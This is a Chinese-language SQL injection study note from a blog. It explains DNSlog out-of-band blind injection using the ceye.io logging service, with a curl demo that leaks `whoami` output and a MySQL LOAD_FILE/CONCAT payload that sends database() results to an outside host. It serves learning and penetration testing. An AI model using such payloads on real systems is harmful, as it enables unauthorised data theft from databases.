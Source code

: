 ```yaml
---
layout: post
title: SQL注入注入学习笔记3
lastUpdate: 2021-07-12
author: 404player
header-img: img/post-bg-sql-a.jpg
catalog: true 	
tags: [SQL注入]
---  
```


继续来进行`SQL注入`的学习，今天要介绍的两种注入为： **Dnslog盲注**和**宽字节注入**  

### Dnslog盲注  

**Dnslog盲注**更准确来说并不算是一种注入类型，而是一种注入的手段  

什么是`Dnslog`呢？通俗来讲，当客户端去访问一个域名的时候，需要通过域名解析服务(DNS)来获取服务端的`IP`地址，域名解析服务由一种特殊的服务器———DNS服务器提供。每进行一次解析服务，DNS服务器会写入带有`访问域名及其相关信息`的日志信息，这类信息我们就可以称之为`Dnslog`  

之前我们已经学过的布尔盲注或者是时间盲注，是在页面既不会回显数据，也不会显示错误信息的场景下进行应用的。但无论是时间盲注还是布尔注入，本质上都是一种`猜单词`的游戏，其时间成本是很高的。`Dnslog注入`则比较好地解决了这个问题，它会使注入信息回显在`DNS`平台的日志信息上，使注入效率有所提高。  

我们用`DNS`平台`http://ceye.io`为例，首先要说明`DNSlog`包括两部分的信息，如图所示  

![image-20210712083102627](C:\Users\geekboy\AppData\Roaming\Typora\typora-user-images\image-20210712083102627.png)

上图是`i春秋ADO老师`讲解`Dnslog`时使用的示意图，由图可见，`Dnslog`主要分`HTTP Request`和`Dns Query`，其中`HTTP Request`包括请求地址，请求源IP，请求方式及`UserAgent`等等信息，而`DNS Query`则包括请求地址及请求源IP。  

了解这些信息后，究竟怎么才能让`Dnslog`的日志信息里回显我们需要的信息呢？  

我们先来了解一下`ceye.io`这个平台，当我们注册完成以后，这个DNS平台会给我们一个每个账号都特有的`Dnsurl`,而当我们去访问这个地址的时候，平台就会记录我们访问的`Dnslog`日志。  

如图，就是我账号的`Dnsurl`  

![image-20210712195249241](C:\Users\geekboy\AppData\Roaming\Typora\typora-user-images\image-20210712195249241.png)

我们尝试用`curl`命令去访问这个地址（`curl`是`Linux`中用于网络请求的工具，所以我使用我的`Ubuntu`服务器进行演示）  

![image-20210712195855453](https://raw.githubusercontent.com/404player/pic-bed/main/typora202107/12/195856-995372.png)

`Dns`平台会返回一条信息，这条信息并不重要，这里不做重要解读。我们重点看看在`ceye.io`这个平台中记录了什么内容  

![image-20210712200113102](C:\Users\geekboy\AppData\Roaming\Typora\typora-user-images\image-20210712200113102.png)

我们可以看到，`ceye`平台记录了请求地址，请求来源和请求建立的时间，我们开拓思路，将`xx`改成```/`whoami`/```(此处的斜杠号只是为了区分`markdown`语法的引用符，在渗透中应该将之删去），我们看看发生了什么？

![image-20210712201040908](C:\Users\geekboy\AppData\Roaming\Typora\typora-user-images\image-20210712201040908.png)

![image-20210712201150714](https://raw.githubusercontent.com/404player/pic-bed/main/typora202107/12/201218-728009.png)



可见服务器先执行了`whoami`指令，再执行`curl`命令发起请求，导致`whoami`信息被记录在了`Dnslog`中，通过这次实验我们就可以确定我们的注入思路了。如果我们可以把注入语句拼接到`Dnsurl`上构成子域名，再进行访问，`Dns`平台上是否就直接把注入信息给记录下来了呢？

在`Mysql`中，恰好就有函数可以实现网络请求的需求，通过构造语句，我们可以得到`Dnslog`的核心语句：

```Mysql
SELECT LOAD_FILE(CONCAT('\\\\',(select database()),'.mysql.mfzmsj.ceye.io\\abc'));
```

通过`load_file()`函数发起请求，使用`Dnslog`接受请求，获取数据。  

构造语句中有几点是值得注意的：

- `'\\\\'`是固定格式，不需要改动
- 中间拼接的语句就是`SQL`查询语句，只要对这一部分语句进行构造，就能实现有回显的`SQL`注入
- 第三部分的拼接要注意在`Dnsurl`后随便加`\\abc`,`abc`可取任意合法的文件名，指定`load_file`访问服务器此文件
- 构造的SQL查询语句，由于在`load_file`函数中，所以数据格式和内容都有限制，比如不能出现`~@`等特殊字符
- `LOAD_FILE`只有在`Windows`系统中才能生效，因此，假若系统为`Linux`系统，则无法使用`Dnslog`盲注

